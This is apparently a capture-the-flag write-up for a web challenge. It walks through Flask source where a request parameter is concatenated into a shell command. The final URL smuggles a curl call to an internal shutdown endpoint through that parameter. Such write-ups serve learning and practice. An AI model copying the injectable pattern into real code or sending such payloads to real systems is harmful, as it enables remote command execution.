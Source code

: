 # Introduction
This is a rather simple web challange to get familliar with how to find paths and look into soruce code for how a function works

## Challange Discription

Agent, we've identified what appears to be ARIA's control panel. Luckily there's no authentication required to interact with it. Can you take down ARIA once and for all?
https://uscybercombine-s4-control-panel.chals.io/
File : [Source_Code](https://github.com/salarsalimi/CTF/tree/main/US%20Cyber%20Open%20Season%20IV/resources/control-panel/control-panel)

## Webpage 

After openning the dashboard we see it's a simple page that has 4 links each one making a request to same URL with a parameter

![](../assets/Control_Panel_1.png)

For example when we open first link we are sending this parameter like bellow:

![](../assets/Control_Panel_2.png)




## Step 1

End link seems to be important so it's time to take a look at source code to see how our parameter is working
From code bellow we see that the final link must be used with second parameter named **arg**

```python
from flask import Flask, render_template, request
from subprocess import getoutput

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    command = request.args.get("command")
    if not command:
        return render_template("index.html")
    
    arg = request.args.get("arg")
    if not arg:
        arg = ""

    if command == "list_processes":
        return getoutput("ps")
    elif command == "list_connections":
        return getoutput("netstat -tulpn")
    elif command == "list_storage":
        return getoutput("df -h")
    elif command == "destroy_humans":
        return getoutput("/www/destroy_humans.sh " + arg)
    
    return render_template("index.html")
```



## Step 2

We take a look at getoutput defenition in subprocces library to see how it works
- it seems like it is executing our commands 

![](../assets/Control_Panel_3.png)

So basically we have RCE but what command to execute ? 

## Step 3

Now that we know what parameter to use and that it has RCE but we must know what to give it too !!
For this we look in destroyer.py and see this lines of code in it:

```python
elif self.path == '/shutdown':
				resp_ok()
				self.wfile.write(get_json({'status': 'shutting down...'}))
				self.wfile.write(get_json({'status': 'SIVBGR{no-flag-4-u}'}))
				return
```

So we must call this url
> http://localhost:3000/shutdown 

We achive this with this url call :
> https://uscybercombine-s4-control-panel.chals.io/?command=destroy_humans&arg=curl%20-s%20localhost:3000/shutdown

![](../assets/Control_Panel_4.png)